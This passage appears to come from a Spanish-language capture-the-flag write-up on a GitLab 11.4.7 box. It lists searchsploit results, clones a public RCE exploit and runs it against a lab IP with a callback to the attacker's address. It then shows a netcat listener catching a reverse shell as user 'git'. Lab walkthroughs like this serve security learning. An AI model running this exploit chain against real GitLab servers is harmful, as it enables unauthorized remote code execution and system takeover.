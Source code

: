 ```bash
 Exploit Title                                                                                                                                                                                              |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
GitLab 11.4.7 - RCE (Authenticated) (2)                                                                                                                                                                     | ruby/webapps/49334.py
GitLab 11.4.7 - Remote Code Execution (Authenticated) (1)                                                                                                                                                   | ruby/webapps/49257.py
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```
Intente usar los dos exploits, pero ninguno me funciono debido a esto tuve que buscar diferentes exploits en la web hasta que finalmente encontré uno que <a href="https://github.com/dotPY-hax/gitlab_RCE">funcionaba</a>.
```bash
$ git clone https://github.com/dotPY-hax/gitlab_RCE.git
Cloning into 'gitlab_RCE'...
remote: Enumerating objects: 84, done.
remote: Counting objects: 100% (84/84), done.
remote: Compressing objects: 100% (80/80), done.
remote: Total 84 (delta 26), reused 1 (delta 0), pack-reused 0
Receiving objects: 100% (84/84), 24.11 KiB | 4.02 MiB/s, done.
Resolving deltas: 100% (26/26), done.
$ cd gitlab_RCE
$ python3 gitlab_rce.py 
usage: gitlab_rce.py <http://gitlab:port> <local-ip>
```
Proporcione los datos necesarios y ejecuté el exploit.
```bash
$ python3 gitlab_rce.py http://10.129.227.132:5080 10.10.16.5                    
Gitlab Exploit by dotPY [insert fancy ascii art]
registering e3lsKaAKhb:c1ptwUVsf0 - 200
Getting version of http://10.129.227.132:5080 - 200
The Version seems to be 11.4.7! Choose wisely
delete user e3lsKaAKhb - 200
[0] - GitlabRCE1147 - RCE for Version <=11.4.7
[1] - GitlabRCE1281LFIUser - LFI for version 10.4-12.8.1 and maybe more
[2] - GitlabRCE1281RCE - RCE for version 12.4.0-12.8.1 - !!RUBY REVERSE SHELL IS VERY UNRELIABLE!! WIP
type a number and hit enter to choose exploit: 0
Start a listener on port 42069 and hit enter (nc -vlnp 42069)
registering BahRzYRCgP:x7yVgDAJsI - 200
hacking in progress - 200
delete user BahRzYRCgP - 200
```
Gane una shell.
```bash
$ nc -nlvp 42069
listening on [any] 42069 ...
connect to [10.10.16.5] from (UNKNOWN) [10.129.227.132] 54598
bash: cannot set terminal process group (506): Inappropriate ioctl for device
bash: no job control in this shell
git@gitlab:~/gitlab-rails/working$ whoami
whoami
git
git@gitlab:~/gitlab-rails/working$
```